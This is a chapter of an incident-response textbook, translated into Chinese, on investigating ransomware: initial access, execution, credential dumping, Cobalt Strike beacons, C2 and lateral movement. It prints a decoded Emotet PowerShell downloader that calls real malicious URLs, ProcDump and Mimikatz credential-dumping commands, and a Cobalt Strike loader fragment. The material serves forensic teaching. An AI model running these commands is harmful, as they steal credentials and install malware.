


# 第十五章：勒索软件调查

即使在应急响应中只花费短短的时间，你也很可能会参与勒索软件调查。如我们在前一章中所见，这类攻击的威胁范围广泛，影响各类组织，包括政府实体、大型企业、医疗保健和关键基础设施。鉴于勒索软件攻击的性质，分析人员和响应人员应熟悉如何调查勒索软件的常见战术和技术。

在本章中，我们将查看一些常见的战术和相关证据。具体来说，我们将检查以下内容：

+   勒索软件初始访问和执行

+   发现凭证访问和窃取

+   调查后期利用框架

+   命令与控制

+   调查横向移动技术

# 勒索软件初始访问和执行

勒索软件攻击的第一阶段是最初访问目标环境并执行第一阶段的恶意软件。这为威胁行为者提供了进行其余攻击所需的初步立足点。了解如何实现这个初步立足点，可以帮助分析人员提取与此攻击阶段相关的 IOC（指标），旨在确定攻击的范围和潜在来源。

## 初始访问

勒索软件威胁行为者用来获得初步立足点的主要方法是使用**矛式钓鱼附件攻击 [T1566.001]**。在许多情况下，这涉及到使用 Microsoft Word 或 Excel 表格，其中包含可以执行**虚拟基本应用程序**（**VBA**）的宏。这个宏通常是多阶段攻击的第一阶段，用户在不知情的情况下执行该宏，宏随后连接到攻击者的基础设施，以下载其他恶意软件，如远程访问木马（RAT）或与后期利用框架（如 Cobalt Strike）相关的工具。

在这种情况下，我们将查看一个从 Microsoft Word 文档执行并调用 Emotet 实例的宏。该文档的样本可以在[`app.any.run/tasks/c9ba8b96-5f45-4cb5-8b3d-8dc16910b930/#`](https://app.any.run/tasks/c9ba8b96-5f45-4cb5-8b3d-8dc16910b930/#)找到。与任何可能的恶意代码一样，以下过程是在正确配置的恶意软件沙箱中执行的。

在我们开始这个过程之前，了解目标用户或用户看到的内容是很重要的。在这种情况下，如果他们点击电子邮件中的 Word 附件，以下内容将会显示：


图 15.1 – Microsoft Word 文档 – 启用内容

通过点击`OleDump.py`。该工具由 Didier Stevens 开发，可用于分析**对象链接与嵌入**（**OLE**）或复合文档。该工具可以在[`blog.didierstevens.com/programs/oledump-py/`](https://blog.didierstevens.com/programs/oledump-py/)找到。同时，工具也提供了一份便捷的备忘单，可以通过[`sansorg.egnyte.com/dl/3ydBhha67l`](https://sansorg.egnyte.com/dl/3ydBhha67l)下载。

OLE 背景

OLE 是 Microsoft 文档的一项功能，用于包含额外的数据类型或组件。它为用户提供了附加功能，但也创造了一个可以被威胁行为者利用的工具。Microsoft 在[`docs.microsoft.com/en-us/cpp/mfc/ole-background?view=msvc-170`](https://docs.microsoft.com/en-us/cpp/mfc/ole-background?view=msvc-170)提供了 OLE 的概述，值得一读。

首先，指向可疑文件的`Oledump.py`，可以使用以下命令下载：

```
C:\Users\PROD-SANDBOX\Downloads\Oledump>oledump.py DETAILS-RL1609.doc
```

这将产生以下输出：


图 15.2 – Oledump.py 输出

在`Oledump.py`输出中，三行显示了宏的存在。第 16 行有一个小写的`m`，表示定义了一个宏模块，但该行没有关联的代码。其余两行的大写`M`表示宏代码的存在。在这种情况下，我们可以将该宏代码转储到一个输出中，然后使用像`Oledump.py`这样的工具进行分析。要从第 17 行提取 VBA 代码，可以使用以下命令：

```
C:\Users\PROD-SANDBOX\Downloads\Oledump>oledump.py -s 17 -v DETAILS-RL1609.doc > macro17
```

`-s`参数表示 Oledump 应该从第 17 行转储字符串。VBA 代码将被压缩。`-v`参数用于解压输出。这个过程应该使用相同的命令重复执行，以处理第 18 行：

```
C:\Users\PROD-SANDBOX\Downloads\Oledump>oledump.py -s 18 -v DETAILS-RL1609.doc > macro18
```

从这里开始，我们将首先分析第 18 行的输出。第 9 行，在*图 17.3*中，展示了触发宏操作的原因——在这种情况下，当文档被打开时会触发。第 10 行显示了入口点，并使用`Tbcepkcgnhpwx`方法：


图 15.3 – Oledump.py 宏识别

打开宏 17 的输出，我们可以看到大量代码。使用在宏 18 中找到的入口点，我们可以使用`Tbcepkcgnhpwx()`函数在第 79 行揭示出几个字符实例，如下所示：


图 15.4 – 宏混淆

在 macro17 的第 80 行之后似乎是混淆的代码。这是恶意脚本的典型做法，因为它是一种绕过检测控制的方法。这段混淆代码呈现了下一组可用的字符。在这个例子中，`//====dsfnnJJJsm388//=` 这一系列字符似乎是用来混淆代码的令牌。可以使用该令牌来混淆部分脚本。利用**查找**工具，查找所有该令牌的实例。然后将它们替换为空白，接下来第 80 行会显示如下内容：


图 15.5 – 宏代码明文

此时，我们已经能够清晰地看到 VBA 脚本，并可以开始静态分析的过程。缺点是我们仍然没有任何具体的 IOCs 可以利用。在此阶段，我们需要回到最开始的地方，识别在 *图 17.2* 中 `OleDump.py` 的任何特定行。在此例中，第 14 行显示了更多的数据。再次使用 `Oledump.py`，我们希望通过以下命令导出该行的内容：

```
C:\Users\PROD-SANDBOX\Downloads\Oledump>oledump.py -s 14 -d DETAILS-RL1609.doc > macro14
```

在前面的命令中，我们不需要担心压缩，但需要使用 `-d` 参数，以便将整行内容输出到 macro14 文件中。此文件可以通过 Visual Studio Code 或简单的文本编辑器（如 Notepad++）打开，如下图所示：


图 15.6 – 宏文件文本输出

在之前的截图中，我们可以看到之前已识别出的相同令牌 `//====dsfnnJJJsm388//=`，以及其他代码。稍后输出中，我们可以看到相同的模式：


图 15.7 – 宏代码混淆

从这里，我们可以重复类似的过程，使用**查找**工具移除令牌字符并将其替换为空白。我们剩下的是经过 Base64 编码的数据，如下所示：


图 15.8 – Base64 编码命令

为了提取与宏相关的 IOCs，我们可以复制 Base64 字符并使用任何能够解码 Base64 的工具进行解码。在本例中，我们将使用开源工具 **CyberChef**。这个工具由英国的 GHCQ 创建，允许分析人员使用“配方”或一系列命令来分割和处理数据。CyberChef 可以通过网页访问，网址为 [`gchq.github.io/CyberChef/`](https://gchq.github.io/CyberChef/)，或者下载到本地计算机。如果你使用的是隔离的沙箱环境，下载到本地机器通常是一个不错的选择。该工具由四个主要部分组成，如下图所示：


图 15.9 – CyberChef 界面

这些部分的第一个是**操作**。这些是可以运行的特定命令。操作被拖动到**配方**部分，并对输入进行处理。点击**BAKE!**按钮运行配方。CyberChef 还允许分析人员保存配方或使用社区提供的配方，例如在 GitHub 上的[`github.com/mattnotmax/cyberchef-recipes`](https://github.com/mattnotmax/cyberchef-recipes)。

在本案例中，我们将使用两个操作来解码编码的文本并提取 IOC（指标）。在此，我们将使用**从 Base64**和**解码文本**操作。只需点击特定操作并将其拖动到**配方**部分：


图 15.10 – CyberChef – 配方

配方设置好后，点击**BAKE!**，以下结果应该会显示出来：


图 15.11 – CyberChef 解码

输出看起来是命令和 URL 的组合：

```
$Kqldfmbvr='Xidvorbkkcgta';$Fymbhyexmh = '593';$Nnrgqikkfqy='Bjspcpsecqf';$Osxjsuvbbxzc=$env:userprofile
+'\'+$Fymbhyexmh+'.exe';$Qeewlohvnhzjg='Tqytjxitodxzf';$Pvqkrn
oao=&('new-ob'+'jec'+'t') nET.WebcLIEnt;$Fkmngitga='http://oni
ongames.jp/contact/iY/*http://pmthome.com/posta/dr3zxa/*http:
//urgeventa.es/img/k35d9q/*https://solmec.com.ar/sitio/nTXZomKCx/*https://tiagocambara.com/cgi-bin/s96/'."SpL`IT"
('*');$Xmvtsffjfj='Nbsfvavkmslb';foreach($Qtykmgpyyczy in $Fkmngitga){try{$Pvqkrnoao."d`OWnloa`DfIlE"($Qtykmgpyyczy, $Osxjsuvbbxzc);$Lqsnocick='Mwrnhskzeus';If ((&('Ge'+'t'+'-Item') $Osxjsuvbbxzc)."l`eNg`Th" -ge 36952) {[Diagnostics.rocess]::"S`TARt"($Osxjsuvbbxzc);$Zjcyebtu='Pqrvhklqerie';
break;$Fzbbuntuulpsg='Musmxxqbo'}}catch{}}$Jbrhtvgftfzs=
'Bvvggpdikswqr'
```

从这里，我们提取了几个 URL。例如，URL [`pmthome.com`](http://pmthome.com) 已被确定为托管恶意软件，如 VirusTotal 的以下屏幕截图所示：


图 15.12 – VirusTotal 分析

启用宏的文档通常是事件链中的第一步，其中受害者用户执行宏，从而执行一个脚本，该脚本会访问某个 URL 并下载二级有效载荷以供执行。这个二级有效载荷通常是一个重新利用的银行木马，用于获取远程访问权限，以便可以在系统上部署更多工具。

## 执行

紧接着前面的讨论关于初始访问，我们现在来看看威胁行为者如何执行通过之前我们检查过的脚本加载的有效载荷。恶意软件的执行方式有多种。通过简要检查 MITRE ATT&CK 框架中的执行战术可以证明这一点。由此可以得出老话一句；*“恶意软件可以隐藏，但它必须执行。”* 基于这个观点，我们将探讨如何利用 Velociraptor 和一些证据来源来查找恶意代码的执行情况。

首先，我们将查看执行技术**系统二进制代理执行：Rundll32 [T1218.011]**。在这个技术中，威胁行为者使用合法的 Microsoft Windows 二进制文件来执行恶意操作。威胁行为者使用 Rundll32 有多种原因。这可能是为了绕过访问控制，滥用合法的系统 DLL 文件进行恶意操作，或者将合法的 DLL 文件作为整体攻击的一部分进行移动。在本示例中，我们将检查威胁行为者如何使用 Rundll32 来执行其自有的恶意 DLL 文件。

从上一节中，我们看到威胁行为者如何使用嵌入在 Microsoft Word 文档中的 VBA 脚本，该脚本执行时会连接到外部服务器并下载文件。在这种情况下，我们将从相同的过程开始，下载一个 DLL 文件形式的 Emotet 二进制文件。（活跃的 Emotet 二进制文件可以在 [`bazaar.abuse.ch/browse.php?search=sha256%3Acd13a9a774197bf84bd25a30f4cd51dbc4908138e2e008c81fc1feef881c6da7`](https://bazaar.abuse.ch/browse.php?search=sha256%3Acd13a9a774197bf84bd25a30f4cd51dbc4908138e2e008c81fc1feef881c6da7) 找到。）

恶意 DLL 文件的一个可能位置是在登录用户的 AppData 目录中。这通常是由于文件通过宏下载的。在这种情况下，我们将在受害者系统上的该位置执行 Emotet 二进制文件。威胁行为者可以通过以下命令远程执行此操作：

```
C:\Windows\system32>rundll32.exe C:\Users\PROD-SANDBOX\AppData
\Local\Temp\sample.dll,#1
```

在前面的命令中，`sample.dll` 文件通过 Rundll32 使用序号 `#1` 执行。从这里，DLL 文件执行，并且恶意软件开始运行。

回到那句引述“*恶意软件可以隐藏，但必须运行*”，有几个位置可以找到执行证据。在这种情况下，我们将使用 Velociraptor 和 **Windows.Analysis.EvidenceOfExecution** 证据收集。在 Velociraptor 中，点击加号（**+**）图标：


图 15.13 – Velociraptor 证据收集

搜索 `evidence execution` 并选择**Windows.Analysis.EvidenceOfExecution**：



图 15.14 – Velociraptor – 选择要收集的工件

该证据收集利用了多个不同来源来展示执行证据。查看参数后，点击**启动**。收集完成后，选择**下载结果**，然后选择**准备收集报告**。报告将显示在**可用下载**部分：


图 15.15 – 结果

从这里，点击报告。这将下载一个包含证据收集输出的 HTML 文件。在报告的预取视图中，我们可以看到 Rundll32 于 20220908T15:50:14Z 执行：


图 15.16 – RunDll32 预取项

滚动查看其他结果，我们可以看到除了看起来是从 `System32` 目录中执行的合法 DLL 文件外，还有一个从 `TEMP` 目录中执行的条目：


图 15.17 – RunDLL32 预取项详细信息

审查 RunDLL32 和相关 DLL 的执行是寻找恶意软件执行证据的一个好方法。鉴于当前的位置，分析师可以随后检索该文件并将其发送进行恶意软件分析。

建立初始立足点的过程可能是脚本文件执行与人工交互的组合。接下来，我们将讨论凭据访问或窃取，在这一过程中，攻击者试图获取合法的凭据，以便执行攻击的其余部分。

# 发现凭据访问与窃取

勒索软件攻击者常常利用的一个关键漏洞是 Windows 操作系统在内存中管理凭据的方式。凭据及其关联的密码哈希由**本地安全授权子系统服务**（**LSASS**）管理。这个在内存中运行的进程包含了已登录或当前登录系统的用户账户凭据。此外，Kerberos 认证票据也可以存储在此进程的地址空间中。由于它在管理凭据方面的作用，LSASS 成为勒索软件攻击者的高价值目标。

MITRE ATT&CK 框架包含了完整的**凭据访问 [TA0006]**技术列表。在这种情况下，我们将讨论两种常见的操作系统凭据转储技术，攻击者通过访问运行内存中的 LSASS 进程 **[T1003.001]**，以及在勒索软件攻击中非常常见的相关工具。在这两种情况下，所描述的工具和技术涉及常用的工具，并且可以轻松执行。

## ProcDump

其中一种技术是使用 Microsoft Windows Sysinternals 工具 ProcDump。在这种情况下，攻击者要么使用该工具的本地副本，要么将其传输到受害者系统中执行。接下来，使用命令行对 LSASS 进程执行 ProcDump，如下所示：

```
C:\Users\Jsmith\Desktop>procdump.exe -ma lsass.exe dump.dmp
```

在这里，攻击者可以传输转储文件并提取密码哈希以进行破解。

如果没有专门监控此活动的控制措施（如 EDR 工具或 SIEM），通常很难检测到这种活动。从检测控制的角度来看，这种活动是合法的，并且系统管理员会使用它。由于勒索软件攻击者经常使用这种类型的活动，安全实践建议删除 ProcDump 或任何可以转储 LSASS 进程的工具，或者检测并验证任何使用行为是否为合法。

查找 ProcDump 使用证据的最佳位置是在应用程序执行中，我们在上一节中讨论过。显示 ProcDump 执行的预取文件可以帮助我们找到执行的时间和位置。另一个选项是对于启用了 Sysmon 日志记录的组织，可以查找 **类型 1：进程创建** 记录，如下所示：


图 15.18 – ProcDump Sysmon 记录

在日志条目中，以下是判断是否访问了凭据的关键数据点：

```
ParentCommandLine: C:\AtomicRedTeam\Atomics\T1003.001\procdump.exe  -accepteula -ma lsass.exe C:\Windows\Temp\lsass_dump.dmp
```

在输出中，我们可以看到威胁行为者对 LSASS 进程执行了 ProcDump，并将输出文件放置在`C:\Windows\Temp`目录中，准备后续窃取。这是增强系统日志记录和检测 ProcDump 使用的一个很好的应用场景。

## Mimikatz

在*第十四章*中，我们研究了工具 Mimikatz。Mimikatz 是威胁行为者的另一个常用工具，因为它易于使用，并且已经集成在各种后期利用框架中。当集成到如 Cobalt Strike 或 PowerSploit 等工具中时，该工具可以在内存中运行，而不需要将任何文件写入磁盘。这使得寻找痕迹证据变得困难，但并非不可能。

例如，GitHub 上可用的利用工具 PowerSploit（网址：[`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)）有一个名为 `Invoke-Mimikatz` 的模块。虽然该工具避免了将二进制文件写入磁盘并执行，但 PowerShell 日志中仍有痕迹，特别是事件 403，能够显示命令执行情况，如下图所示：


图 15.19 – Mimikatz PowerSploit 条目

日志条目中包含以下关键数据点：

```
HostApplication=powershell.exe & {IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds}
```

这为分析师提供了凭证哈希已被访问的确凿证据。在发现使用 Mimikatz 或 ProcDump 的情况下，最佳实践是认为该系统上的凭证或 Kerberos 认证机制已经被攻破。因此，建议按照*第十六章*中讨论的内容，进行密码重置。

理解凭证访问和窃取不仅对调查非常重要，还对于从此类攻击中恢复也至关重要。揭示这些工具的使用情况以及潜在的被盗凭证，能够为决策者提供必要的数据，以便做出是否重置或禁用用户和管理员密码的决策。

# 调查后期利用框架

分析师遇到的主要后期利用框架是 Cobalt Strike。还有其他框架，如 PowerSploit 或 Meterpreter，这些框架通常可用，即使是最初级的威胁行为者也可以使用。一个主要机制是这些利用框架利用编码的 PowerShell 脚本，建立一个反向连接回威胁行为者的指挥与控制基础设施。

从对手的角度来看，这种方法有几个好处。首先，脚本可以加载到多个位置，从而在重启后依然能够存活。例如，MITRE ATT&CK 技术 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` 注册表键。

第二个好处是，恶意 PowerShell 脚本可以通过使用 Windows 操作系统工具（如 Windows 管理工具）远程执行，这些工具能够远程执行恶意脚本。Cobalt Strike 将此功能作为其特点之一。

最后，恶意脚本通常可以直接在内存中运行，而不需要将文件放到系统中，这样可以增加脚本被检测到的机会。通过远程执行并在内存中运行脚本可以绕过一些杀毒控制。

在查找使用 Cobalt Strike 等工具和恶意脚本的证据时，最好的位置是 Windows PowerShell 事件日志。查找事件 ID 为 400 的远程脚本执行，或事件 ID 为 600 的 PowerShell 使用。另一个来源是 Windows PowerShell 操作事件日志，事件 ID 为 4104。以下截图显示了此类日志的内容：


图 15.20 – Cobalt Strike PowerShell 事件日志条目

关于恶意脚本，通常有两个关键点需要注意。第一个是 Base64 编码，如前面的截图所示。此外，像`Powershell -nop - w hidden -noni -e`和`powershell.exe -EncodedCommand`这样的命令通常是红旗警告，可以作为在进行日志分析时的搜索关键字。

要从这些脚本中提取 IOC，我们可以使用之前解码宏中 Base64 数据时使用的 CyberChef 工具。在这种情况下，我们将解码一个常见的 Cobalt Strike 脚本，该脚本会在目标系统上安装一个信标：

1.  第一步是简单地从事件日志、计划任务或注册表中复制 Base64 字符。一种好的技巧是将其复制到文本编辑器中，以防万一发生小错误，这样你可以随时返回到干净的输出：


图 15.21 – Cobalt Strike Base64 编码脚本

1.  接下来，我们将把编码数据放入 CyberChef 的**输入**字段，并使用**从** **Base64**操作：


图 15.22 – 第一次 Base64 解码

1.  你会经常注意到，在编码后的 PowerShell 脚本中，嵌入了另一组 Base64 编码的字符。只需重复解码新编码字符的过程：


图 15.23 – 第二次 Base64 解码

1.  同样，前面会有一组新的 Base64 编码字符：

    ```
    [Byte[]]$var_code = [System.Convert]::FromBase64String
    ```

在编码字符后，出现了以下字符串：

```
for ($x = 0; $x -lt $var_code.Count; $x++) {
          $var_code[$x] = $var_code[$x] -bxor 35
```

1.  前面的字符串表明，前面的字符不仅被编码过，还经过了 XOR 函数的处理。在这种情况下，复制编码后的命令并将其放入输入框。这里，我们将使用相同的**From Base64**操作，但这次，我们将添加另一个操作来处理 XOR 函数，如下截图所示：


图 15.24 – Base64 XOR 配方

1.  这将产生以下 shellcode 输出：


图 15.25 – Shellcode 输出

对 shellcode 的分析揭示了几个关键数据点。第一个也是最明显的就是 IP 地址 `47.242.164.33`。还有其他数据点，例如 `User-Agent` 字符串。现在我们已经获得了这个 shellcode 和相关的 IOC，我们可以在这里停止，但使用开源的 shellcode 分析工具 `scdbg` 进行独立评估可能也很重要，该工具可以在 [`sandsprite.com/blogs/index.php?uid=7&pid=152`](http://sandsprite.com/blogs/index.php?uid=7&pid=152) 下载。

首先，使用位于 `.dat` 文件中的保存图标。接着，下载 `scdbg` 并将文件解压到目标位置。最后，运行以下命令对下载的 shellcode 进行分析：

```
C:\Users\PROD-SANDBOX\Downloads\scdbg.exe -f download.dat
```

这将生成以下输出：


图 15.26 – Shellcode 分析

输出显示已经与 IP 地址 `47.242.164.33` 建立了连接，并使用目标端口 `8083`。结合我们之前观察到的用户代理字符串，Cobalt Strike 信标正在尝试与其他互联网流量融合，以混淆 C2 流量。

定位、提取和分析后渗透脚本或信标至关重要，因为它通常揭示了威胁行为者正在使用的 C2 基础设施。这对于理解威胁行为者如何维持对系统的控制也很关键，并为适当的根除和恢复提供数据。

# 命令与控制

在这种情况下，我们将查看与后渗透工具 Cobalt Strike 相关的流量。这是勒索软件威胁行为者常用的工具。我们将检查一个完整的数据包捕获，以揭示与攻击者基础设施相关的先前未识别的 IOC。在本次审查中，我们将查看与使用 Squirrelwaffle 加载器和 Qakbot RAT 进行的攻击相关的数据包捕获，并最终讲解如何安装 Cobalt Strike，该工具可通过 [`www.malware-traffic-analysis.net/2021/09/22/index.html`](https://www.malware-traffic-analysis.net/2021/09/22/index.html) 获取。

## 安全洋葱

我们之前简要介绍过的一个工具是 Security Onion。这个开源入侵检测系统可以帮助识别潜在的指挥与控制流量。在这个案例中，数据包捕获是根据现有规则集运行的，Security Onion 指示了多个命中的事件。其中一个值得注意的是 **ET MALWARE 观察到的 Qbot 风格** **SSL 证书**：



图 15.27 – Cobalt Strike 安全洋葱检测

这个警报表明 SSL 证书与之前在 Qbot 恶意软件相关联时观察到的证书匹配。进一步检查与恶意流量相关的 IP 地址，发现有 27 个连接使用了非标准的 HTTP 端口：


图 15.28 – 安全洋葱警报网络连接

像 Security Onion 这样的 IDS 工具可以迅速将注意力集中到关键指标上。即使没有这些工具，一些工具仍然可以为我们提供值得关注的数据点，特别是那些与 C2 流量相关的数据。

## RITA

分析师通常很少会拥有整个攻击链的完整数据包捕获，但通过审查数据包捕获，可以让我们通过查看网络流量数据的具体元素来洞察如何识别潜在的指挥与控制流量。首先，我们可以使用在 *第九章* 中介绍的 RITA 工具：

1.  首先，我们需要使用 Zeek 处理数据包捕获：

    ```
    dfir@ubuntu:~/rita$ zeek -C -r Squirrelwaffle_Qakbot.pcap
    ```

1.  接下来，将 Zeek 输出导入到 RITA：

    ```
    dfir@ubuntu:~/rita$ rita import *.log Squirrelwaffle_Qakbot
    ```

参考截图如下：


图 15.29 – 数据包捕获 Zeek 导入

1.  处理 PCAP 显示信标并将其输出到 CSV 文件进行分析：

    ```
    dfir@ubuntu:~/rita$ rita show-beacons Squirrelwaffle_Qakbot > Beacons.csv
    ```

RITA 分析的结果显示了许多与 Security Onion 分析中看到的相同的 IP 地址：


图 15.30 – RITA 信标 IP 地址

这使得分析人员可以在完整的数据包捕获中专注于特定的 IP 地址，并使用像 Arkime 这样的工具进行更详细的分析。

## Arkime

现在，我们已经识别出一些潜在的指挥与控制 IOC（指标），可以转向一个能为我们提供更多流量洞察的工具。虽然 Wireshark 是一个选择，但在这种情况下，Arkime 可能是更好的选择，因为它提供了那种流量样式的视图，更容易查看。让我们为 IP 地址 `108.62.141.222` 运行以下查询：

```
Ip.dst == 108.62.141.222
```

这提供了一些关键的细节，值得关注。首先，这个流量的目标端口是 `8888`，它本身不是恶意的，但也不是 HTTPS 流量的标准端口。其次，存在一个一致的字节交换，且有两个尖峰。第一个出现在流量的开始，然后稍后又出现另一个。如果我们深入查看其中一个数据包，将会发现流量是加密的：


图 15.31 – Arkime 中的 Cobalt Strike 连接

如果我们深入分析其中一个数据流，我们会发现数据是加密的。分析人员通常无法看到的一个领域是 C2 通道的实际活动：


图 15.32 – TCP 流

最后，借助威胁情报，分析人员可以将 IP 地址输入到如 AlienVault 的 OTX 这样的来源中，这样就能揭示出 IP 地址`108.62.141.222`与使用 Cobalt Strike 的基础设施相关联：


图 15.33 – AlienVault OTX 威胁情报

在某些情况下，组织遭受攻击的第一个迹象是 IDS 和 IPS 系统等工具对可疑连接进行了报警。其他时候，命令与控制流量保持未被检测的状态。确定对手如何保持控制对于确保在清除和恢复过程中移除该控制至关重要。

# 调查横向移动技术

在调查横向移动技术时，主要使用的技术是**远程服务利用 [T1210]**。在此技术中，威胁行为者利用已被泄露的凭证和现有的远程访问工具，如 SMB 和 RDP，访问同一网络中的其他系统。像 EternalBlue 这样的漏洞被威胁行为者广泛利用，例如 NotPetya 以及恶意软件变种如 Trickbot。

确定横向移动的主要数据来源应该是 NetFlow。正如我们在*第九章*中所看到的，通过审查 NetFlow，通常可以揭示通过一个或几个机器与网络其他部分在短时间内进行多次连接时使用了 SMB 或 RDP。例如，进行远程维护的系统管理员会通过 RDP 连接到一台服务器，并在 10 到 15 分钟内完成一些维护任务，然后再转到另一台系统。如果看到非管理员系统发起 RDP 连接，更不用说在几分钟内发起数十次连接，那就非常可疑了。

如果 NetFlow 不可用，Windows 事件日志可以提供一些关键细节，说明威胁行为者是如何访问远程镜像的。首先要查看的是 Windows 安全事件日志 4624，它表示用户或管理员已成功登录。在这种情况下，我们关注的是两种类型的登录：SMB 或远程共享登录和远程桌面登录。

在远程共享或 SMB 登录中，威胁行为者通常会使用一种后渗透框架，该框架可以使用 SMB 向另一个系统进行跳转。在威胁行为者连接到的远程系统上，Windows 事件日志中会记录一个事件 ID 4624 类型 3 的条目，如下所示：


图 15.34 – SMB 登录事件日志条目

如日志条目所示，系统 DEKSTOP-9SK5KPF 使用 Atomic Red Team 帐户登录。进一步深入分析条目，我们可以看到与 LAPTOP-CHL1KGT5 系统关联的 IP 地址 `192.168.0.22`，表明这是发起连接的机器：


图 15.35 – SMB 登录条目详细信息

Windows 事件日志中我们可以看到的另一种登录类型是 RDP 连接。相同的事件 ID，4624，用于 RDP 连接，但是对于 RDP 连接，有两种登录类型。第一种是类型 10。这表明向系统建立了新的 RDP 连接。类型 7 表示远程机器正在重新连接前一个会话或者上次建立会话时未正确注销：


图 15.36 – RDP 登录条目

再次查看记录，日志提供了与类型 7 事件相同的信息：


图 15.37 – RDP 登录条目详细信息

对大规模事件进行这种类型的分析并不适用，因此最好的方法是使用 SIEM 或其他平台，如 Skadi。在这种情况下，我们仍然可以获取相同的数据，如下所示：

```
[4624 / 0x1210] Source Name: Microsoft-Windows-Security-Auditing Strings: ['S-1-5-18', 'DESKTOP-9SK5KPF$', 'WORKGROUP', '0x00000000000003e7', 'S-1-5-21-3785962752-1303019572-1054719619-1001', 'Atomic Red Team', 'DESKTOP-9SK5KPF', '0x00000000087e1208', '7', 'User32 ', 'Negotiate', 'DESKTOP-9SK5KPF', '{00000000-0000-0000-0000-000000000000}', '-', '-', '0', '0x0000000000000520', 'C:\Windows\System32\svchost.exe', '192.168.0.22', '0', '%%1833', '-', '-', '-', '%%1843', '0x00000000087e11e6', '%%1843'] Computer Name: DESKTOP-9SK5KPF Record Number: 99549 Event Level: 0
```

通过这一步骤，我们已经总结了如何调查横向移动技术。

# 总结

不幸的现实是勒索软件已经来临。从中得到的教训是，响应者和分析师需要能够识别、提取和分析与这些类型攻击相关的证据。在本章中，我们学习了如何检查常见的初始感染向量，如何确定凭证的窃取，如何检测横向移动，以及如何识别威胁行动者的命令和控制。这是一个坚实的起点，通过持续审查和整合威胁情报来了解威胁行动者的操作方式是至关重要的。

在下一章中，我们将讨论如何将我们在前几章中讨论过的工具和技术应用于威胁狩猎的积极实践。

# 问题

回答以下问题以测试您对本章的知识掌握：

1.  以下哪个不是后渗透框架？

    1.  Cobalt Strike

    1.  Metasploit

    1.  ProcDump

    1.  PowerSploit

1.  Windows 操作系统的凭证存储在哪个进程中？

    1.  LSASS

    1.  服务

    1.  Netstat

    1.  credsman

1.  在 Prefetch 文件中可以观察到 Rundll32 的使用。

    1.  真实

    1.  错误

1.  哪种类型的 Windows 安全事件日志表明远程桌面连接？

    1.  事件 ID 4625 类型 3

    1.  事件 ID 4625 类型 10

    1.  事件 ID 4624 类型 3

    1.  事件 ID 4264 类型 10

# 进一步阅读

关于本章涵盖的主题的更多详细信息，请参考以下内容：

+   *Cobalt Strike PowerShell* *分析*：[`michaelkoczwara.medium.com/cobalt-strike-powershell-payload-analysis-eecf74b3c2f7`](https://michaelkoczwara.medium.com/cobalt-strike-powershell-payload-analysis-eecf74b3c2f7)

+   *去混淆* *PowerShell*：[`medium.com/mii-cybersec/malicious-powershell-deobfuscation-using-cyberchef-dfb9faff29f`](https://medium.com/mii-cybersec/malicious-powershell-deobfuscation-using-cyberchef-dfb9faff29f)

+   *CyberChef*：[`docs.securityonion.net/en/2.3/cyberchef.html`](https://docs.securityonion.net/en/2.3/cyberchef.html)

# 第五部分：威胁情报与狩猎

为了补充本书的前三部分，第五部分深入探讨了与事件响应和数字取证相关的多个专业方面，这些方面直接影响事件调查的成功。这些主题包括恶意代码分析、威胁情报的整合，以及如何将各种数字取证技术融入威胁狩猎的实践中。

本部分包含以下章节：

+   *第十六章**，恶意软件分析与事件响应*

+   *第十七章**，利用威胁情报*

+   *第十八章**，威胁狩猎*
